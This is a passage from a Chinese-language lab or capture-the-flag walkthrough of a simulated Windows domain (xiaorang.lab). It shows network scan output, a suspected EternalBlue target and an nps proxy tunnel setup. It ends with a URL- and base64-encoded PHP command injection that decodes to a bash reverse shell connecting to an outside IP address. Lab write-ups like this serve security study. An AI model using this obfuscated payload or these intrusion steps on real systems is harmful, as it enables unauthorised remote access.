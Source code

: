 \[*\]172.22.15.24  
\[->\]XR-WIN08  
\[->\]172.22.15.24  
\[*\] NetInfo:  
\[*\]172.22.15.18  
\[->\]XR-CA  
\[->\]172.22.15.18  
\[*\] NetBios: 172.22.15.35 XIAORANG\\XR-0687  
\[*\] NetBios: 172.22.15.13 \[+\]DC XR-DC01.xiaorang.lab Windows Server 2016 Standard 14393  
\[*\] 172.22.15.13 (Windows Server 2016 Standard 14393)  
\[*\] NetBios: 172.22.15.24 WORKGROUP\\XR-WIN08 Windows Server 2008 R2 Enterprise 7601 Service Pack 1  
\[*\] NetBios: 172.22.15.18 XR-CA.xiaorang.lab Windows Server 2016 Standard 14393  
\[*\] WebTitle: [http://172.22.15.26](http://172.22.15.26/) code:200 len:39962 title:XIAORANG.LAB  
\[*\] WebTitle: [http://172.22.15.18](http://172.22.15.18/) code:200 len:703 title:IIS Windows Server  
\[*\] WebTitle: [http://172.22.15.24](http://172.22.15.24/) code:302 len:0 title:None 跳转 url: [http://172.22.15.24/www](http://172.22.15.24/www)  
\[+\] [http://172.22.15.18](http://172.22.15.18/) poc-yaml-active-directory-certsrv-detect  
\[\*\] WebTitle: [http://172.22.15.24/www/sys/index.php](http://172.22.15.24/www/sys/index.php) code:200 len:135 title:None  
:::  
大致分析一下，这里 `172.22.15.26` 为此靶标地址。`172.22.15.24` 可能存在永痕之蓝漏洞

```plain
[*] NetBios: 172.22.15.35    XIAORANG\XR-0687               
[*] NetBios: 172.22.15.13    [+]DC XR-DC01.xiaorang.lab          Windows Server 2016 Standard 14393  ## 域控
[*] 172.22.15.13  (Windows Server 2016 Standard 14393)
[*] NetBios: 172.22.15.24    WORKGROUP\XR-WIN08                  Windows Server 2008 R2 Enterprise 7601 Service Pack 1 
[*] NetBios: 172.22.15.18    XR-CA.xiaorang.lab                  Windows Server 2016 Standard 14393 
[*] WebTitle: http://172.22.15.18       code:200 len:703    title:IIS Windows Server
[*] WebTitle: http://172.22.15.24       code:302 len:0      title:None 跳转 url: http://172.22.15.24/www
[+] http://172.22.15.18 poc-yaml-active-directory-certsrv-detect 
[*] WebTitle: http://172.22.15.24/www/sys/index.php code:200 len:135    title:None
```

这里我们配合 `kali` 配合搭建一个 `nps代理隧道`  
注意此处：Kali 是作为服务端 `nps`、靶标为客户端 `npc` 链接  
靶标是出网的..

```plain
1=system('%65%63%68%6f%20%22%59%6d%46%7a%61%43%41%74%59%79%41%69%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%54%45%75%4d%6a%49%35%4c%6a%45%31%4f%43%34%30%4d%43%38%79%4d%7a%4d%7a%49%44%41%2b%4a%6a%45%69%22%7c%62%61%73%65%36%34%20%2d%64%7c%62%61%73%68');
%65%63%68%6f%20%22%59%6d%46%7a%61%43%41%74%59%79%41%69%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%54%45%75%4d%6a%49%35%4c%6a%45%31%4f%43%34%30%4d%43%38%79%4d%7a%4d%7a%49%44%41%2b%4a%6a%45%69%22%7c%62%61%73%65%36%34%20%2d%64%7c%62%61%73%68
## 直接弹 shell
```
